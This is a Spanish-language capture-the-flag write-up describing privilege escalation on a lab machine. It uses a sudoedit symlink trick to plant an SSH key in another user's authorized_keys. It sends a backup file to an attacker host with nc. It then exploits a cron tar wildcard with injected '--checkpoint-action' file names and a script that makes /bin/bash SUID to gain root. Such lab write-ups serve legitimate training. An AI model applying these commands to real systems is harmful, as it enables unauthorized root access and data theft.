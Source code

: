 ## Privilege Escalation {-}

### Privilege escalation al usuario alekos {-}

```bash
ls -l /var/www
```

No tenemos capacidad de escritura en el directorio `/var/www` pero hay un directorio testing donde el usuario proprietario es werkzeug.

```bash
cd /var/www/testing
ls -l
mkdir hannamod
cd !$
echo "Hola" > layout.html
```

Testeamos el commando **sudoedit**

```bash
sudoedit -u alekos /var/www/testing/hannamod/layout.html
```

El commando no abre un nano en el cual podemos editar el contenido. El truco aqui es burlar el fichero para que el usuario pueda editar
un ficher tercio en el cual tenga capacidad de escritura

1. Creamos un enlace symbolico contra el **authorized_keys** del usuario alekos

    ```bash
    ln -s -f /home/alekos/.ssh/authorized_keys layout.html
    ```

1. Nos creamos un par de claves

    ```bash
    ssh-keygen
    ```

1. Lanzamos el **sudoedit** y copiamos la clave publica creada
1. Nos connectamos al usuario alekos por ssh

    ```bash
    ssh -i id-rsa alekos@10.10.10.21
    ```

Pa dentro... somos alekos y podemos leer la flag.

### Privilege escalation al usuario root {-}

```bash
id
sudo -l
ls -l
```

vemos que hay dos directorios 

- backup
- development

```bash
cd backup
stat *
stat * | grep "Modify"
```

En el directorio backup vemos que cada 5 minutos una tarrea que se esta ejecutando a intervalos regulares de tiempo nos crea un archivo de backup.
Ahora tenemos que saber lo que se esta poniendo en estos backups.

1. En la maquina de attaquante

    ```bash
    nc -u -nlvp 443 > dev-1627332901.tar.gz
    ```

1. En la maquina victima

    ```bash
    nc -u 10.10.14.20 443 < dev-1627332901.tar.gz
    ```

mirando el contenido de fichero comprimido, nos damos cuenta que el contenido es el mismo que el directorio development.

Saviendo esto estamos intuiendo que la tarea cron ejecuta un commando del estilo: `tar -cvf backup/test.tar.gz /home/alekos/development/*`.
Aqui el problema es que si el commando es este, el symbolo `*` permitteria burlar el commando tar con breakpoints. Lo que queremos ejecutar seria
el commando siguiente:

```bash
tar -cvf backup/test.tar.gz /home/alekos/development/* --checkpoint=1 --checkpoint-action=exec/bin/sh
```

El echo es que si el commando de la tarea cron tiene el asterisco y que ficheros tienen nombres como `--checkpoint=1` y `--checkpoint-action=exec/bin/sh`,
en vez de copiarlos, los utilizaria como argumentos del proprio commando tar.

```bash
touch privesc
chmod +x privesc

nano privesc

############privesc content##############3

#!/bin/bash

chmod 4755 /bin/bash
```

```bash
touch -- '--checkpoint=1'
touch -- '--checkpoint-action=exec=sh privesc'
```

Ya esta esperamos hasta el proximo run de la tarea cron.

```bash
watch -n 1 ls -l /bin/bash -d
```

Cuando vemos que la /bin/bash tiene el `s` de SUID podemos convertirnos en root

```bash
bash -p
```

